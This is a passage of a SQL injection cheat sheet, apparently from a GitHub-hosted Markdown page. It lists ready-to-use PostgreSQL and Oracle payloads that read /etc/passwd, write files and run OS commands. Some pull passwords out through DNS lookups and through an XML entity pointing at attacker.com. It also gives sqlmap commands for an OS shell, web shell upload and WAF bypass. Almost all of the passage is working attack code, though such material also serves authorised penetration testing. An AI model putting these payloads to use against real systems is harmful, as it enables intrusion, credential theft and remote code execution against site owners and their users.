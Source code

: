**PostgreSQL:**
```sql
' UNION SELECT pg_read_file('/etc/passwd'),NULL,NULL -- 
' UNION SELECT pg_write_file('/tmp/test.txt','test content'),NULL,NULL -- 
'; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec; -- 
```

**Oracle:**
```sql
' UNION SELECT utl_inaddr.get_host_name((SELECT password FROM users WHERE user_id=1)),NULL FROM DUAL -- 
' UNION SELECT NULL,(SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://attacker.com/"> %remote;]>'),'/l') FROM DUAL),NULL FROM DUAL -- 
```

### Automated SQL Injection Tools

**SQLmap Advanced Usage:**
```bash
# Basic detection
sqlmap -u "http://example.com/vulnerable.php?id=1"

# Boolean-based blind
sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=B

# Time-based blind
sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=T --time-sec=10

# Union-based
sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=U

# Error-based
sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=E

# OS shell
sqlmap -u "http://example.com/vulnerable.php?id=1" --os-shell

# File operations
sqlmap -u "http://example.com/vulnerable.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://example.com/vulnerable.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# WAF bypass
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper="space2comment,charencode"

# Advanced testing
sqlmap -u "http://example.com" --crawl=2 --batch
sqlmap -u "http://example.com/login.php" --data="username=admin&password=test"
sqlmap -u "http://example.com/vulnerable.php" --cookie="PHPSESSID=abc123; id=1"
sqlmap -u "http://example.com/vulnerable.php" --headers="X-Forwarded-For: 127.0.0.1"
sqlmap -u "http://example.com/vulnerable.php" --proxy="http://127.0.0.1:8080"
sqlmap -u "http://example.com/vulnerable.php?id=1*" --prefix="'" --suffix="--"
```

---